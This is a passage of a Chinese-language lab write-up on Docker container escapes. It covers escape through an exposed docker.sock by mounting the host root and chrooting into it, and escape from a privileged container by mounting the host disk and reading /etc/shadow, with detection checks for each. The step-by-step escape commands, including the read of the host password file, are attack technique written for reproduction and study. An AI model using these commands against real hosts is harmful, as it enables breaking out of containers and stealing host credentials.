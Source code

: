 ```bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665987423020-42629475-711a-477e-b735-9a88b5fc0f3a.png#averageHue=%23070504&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=343&id=u1f026056&margin=%5Bobject%20Object%5D&name=image.png&originHeight=514&originWidth=595&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27700&status=error&style=none&taskId=ubd9129d7-112e-4f60-9552-820708b82a5&title=&width=396.6666666666667)
#### 检测漏洞
如果存在这个文件，说明漏洞可能存在
```bash
ls -lah /var/run/docker.sock
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665987493457-8e40ffda-f0c1-4366-b6c6-7eb484d1edb8.png#averageHue=%230c0906&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=40&id=u884cb825&margin=%5Bobject%20Object%5D&name=image.png&originHeight=60&originWidth=431&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5245&status=error&style=none&taskId=uc7baa96a-a7ac-4876-bdb0-8db22bbae17&title=&width=287.3333333333333)
#### 创建新容器
在容器内部创建一个新的容器，并将宿主机/home目录挂载到新的容器内部
```bash
docker run -it -v /:/home ubuntu /bin/bash
```
#### 逃逸成功
```bash
chroot /home
```
成功挂载到宿主机的目录下
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665988342047-ffe8ba7b-150e-48b6-a05c-6bf31470fac2.png#averageHue=%230b0706&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=149&id=ud7eedd3b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=224&originWidth=1001&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22451&status=error&style=none&taskId=ua09f0b9e-9b40-41a5-bb10-7d8849dedc0&title=&width=667.3333333333334)


## [配置安全]Privileged特权模式 逃逸
### 漏洞描述
Docker 高危启动参数 -- privileged 特权模式启动容器
当操作者执行docker run --privileged时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。
### 利用条件
privileged 特权模式启动容器
### 漏洞复现
#### 创建容器
使用 --privileged=true 创建一个容器
```bash
docker run --rm --privileged=true -it alpine
```
#### 漏洞检测
在容器内部执行下面的命令，从而判断容器是不是特权模式，如果是以特权模式启动的话，CapEff 对应的掩码值应该为0000003fffffffff 或者是 0000001fffffffff
```bash
cat /proc/self/status | grep CapEff
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665989608630-fbb287ca-30ef-4694-8bdd-7ebea1e8b032.png#averageHue=%230d0806&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=134&id=u85e38f83&margin=%5Bobject%20Object%5D&name=image.png&originHeight=201&originWidth=488&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13174&status=error&style=none&taskId=u4ac5746c-61f9-4020-9638-a21b4d14803&title=&width=325.3333333333333)
#### 查看挂载磁盘设备
```bash
fdisk -l
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665989745138-31371f43-2a40-4536-befc-861851b6629b.png#averageHue=%23080604&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=109&id=u7d726226&margin=%5Bobject%20Object%5D&name=image.png&originHeight=164&originWidth=514&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9450&status=error&style=none&taskId=ua9e87109-ab0b-4729-810d-9ead3808e2d&title=&width=342.6666666666667)
在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下
```bash
mkdir /test && mount /dev/vda1 /test
```
尝试访问宿主机 shadow 文件，可以看到正常访问
```bash
cat /test/etc/shadow
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665990149841-fe4aa615-a6ec-4d78-b0c1-93a6aee002b5.png#averageHue=%230e0c0a&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=342&id=ub9d54ae6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=513&originWidth=569&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35595&status=error&style=none&taskId=u7cabb247-572d-44c0-bb08-2d0425b088e&title=&width=379.3333333333333)